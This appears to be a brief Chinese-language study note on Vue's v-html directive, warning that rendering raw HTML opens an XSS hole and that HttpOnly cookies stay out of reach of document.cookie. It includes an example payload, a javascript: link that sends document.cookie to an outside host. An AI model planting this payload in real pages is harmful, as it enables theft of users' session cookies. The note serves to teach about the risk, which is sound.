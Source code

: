 ### v-html

```html
支持html结构解析
暗藏安全问题XSS
```

```html
<div v-html="str"></div>
```

```js
// 拿到cookie
data:{
    str="
    <a href=javascript:location.href=
        'http://www.baidu.com?'+document.cookie></a>"
}
```

#### cookie

```html
// document.cookie拿不到Httponly为true的cookie
```

